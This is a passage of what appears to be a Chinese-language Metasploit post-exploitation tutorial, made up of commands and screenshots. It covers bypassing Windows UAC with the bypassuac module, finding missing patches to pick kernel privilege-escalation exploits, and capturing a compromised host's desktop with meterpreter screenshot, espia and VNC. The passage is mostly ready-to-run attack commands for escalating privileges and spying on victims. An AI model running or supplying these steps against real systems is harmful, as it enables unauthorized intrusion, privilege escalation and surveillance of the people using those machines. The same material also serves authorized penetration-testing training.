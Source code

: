 ![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibW6vgLEsXsW0BBiaSDOs1vJKa6qucdlvwZjZxEnjnjhLNpIbX2G6S5Pw/640?wx_fmt=png)

```
msf > use exploit/windows/local/bypassuac
msf > set SESSION 5      #选择当前会话
msf > run
```

大部分情况下直接使用`getsystem`是很难提权的，会提示管道内存问题、令牌问题、RPCSS 变体等阻碍提权，但如果利用 bypassuac 返回新会话，就非常稳定提权了… 实用

6. 内核提权

可先利用`enum_patches`模块收集补丁信息，然后查找可用的 exploits 进行提权，需要退出当前连接  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibFFk3twyVO1oicWbLDib6pe5TQEa9zM6ZQF7ytLb5ABGiaSwrAaL2Dz9fw/640?wx_fmt=png)

```
meterpreter > run post/windows/gather/enum_patches  #查看补丁信息
msf > use exploit/windows/....      #利用未打补丁的模块即可
msf > set SESSION 5
msf > exploit
```

7. 远程桌面 & 截图

```
enumdesktops    #查看可用的桌面
getdesktop      #获取当前meterpreter 关联的桌面
set_desktop     #设置meterpreter关联的桌面  -h查看帮助
screenshot    #截屏
use espia      #或者使用espia模块截屏  然后输入screengrab
run vnc      #使用vnc远程桌面连接，这方法有点问题，上传了exe但是启动不了
```

1）enumdesktops 查询

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibKTCzgCkCNOG3icsicZNA9K9HVRzK2lLC4mZ2icx4xPcwhiaZBurfPaPf1Q/640?wx_fmt=png)

```
meterpreter > enumdesktops 
Enumerating all accessible desktops
```

2）screenshot 截图

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibH1TGnS5mdKkdERVyPQ4brC4Rlt8whMQDyuGwpQDWmibuzmbM2Nwlf2A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaib9KkJiaiaic31H6ScnFMKjRLmaPER4H7zfqflDGmmw1gdqydEpUhqib4fSg/640?wx_fmt=png)

清晰截图~~

3）espia 截图

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaib4oUSdSiaZs1nibCQZjRGzPqLMOCU8Tor6C7Er34sXyBrr4uull6ia67Mg/640?wx_fmt=png)

```
meterpreter > use espia 
meterpreter > screengrab
```
